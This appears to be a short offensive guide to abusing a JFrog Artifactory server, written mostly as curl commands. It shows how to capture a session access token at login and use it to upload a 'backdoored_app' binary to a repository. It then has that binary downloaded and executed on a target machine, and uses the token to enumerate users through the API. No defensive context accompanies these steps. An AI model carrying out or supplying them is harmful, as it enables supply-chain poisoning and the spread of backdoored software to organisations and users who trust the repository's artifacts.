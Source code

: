 ### 1. Obtain the Access Token
You need to log in to the Artifactory UI and capture the access token from the response headers or cookies.

#### **NOTE:** curl login doesn't work like this and requires json data like:
```json
{
"user":"username",
"password":"password",
"type":"login"
}
```
Examine how this works with Burp suite, Firefox, or other tool where you can intercept a login request via the webpage.
#### Example with `curl`:
```bash
# Log in to Artifactory and capture the access token
response=$(curl -X POST -c cookies.txt -d "username=<username>&password=<password>" "http://<artifactory_url>/ui/api/v1/ui/login")

# Extract the token (assuming it's stored in a cookie named 'access_token')
access_token=$(grep 'access_token' cookies.txt | awk '{print $7}')
```

The `cookies.txt` file will store the cookies, including the access token if it’s set as a cookie.

### 2. Upload the Backdoored Binary
Use the captured access token to authenticate the request.

#### Using `curl`:
```bash
curl -b cookies.txt -X PUT -T backdoored_app "http://<artifactory_url>/artifactory/<repo>/<path>/backdoored_app" -H "X-JFrog-Art-Api:$access_token"
```

### 3. Download the Backdoored Binary on the Target Machine
You can download the binary on the target machine using the cookie-based access token.

#### Using `curl`:
```bash
curl -b cookies.txt -O "http://<artifactory_url>/artifactory/<repo>/<path>/backdoored_app" -H "X-JFrog-Art-Api:$access_token"
chmod +x backdoored_app
./backdoored_app
```

### 4. Interact with the API
If you need to interact with other Artifactory REST API endpoints (like enumerating users), use the same cookie-based approach.

#### Example for Fetching Users:
```bash
curl -b cookies.txt "http://<artifactory_url>/ui/api/v1/ui/users" -H "X-JFrog-Art-Api:$access_token"
```

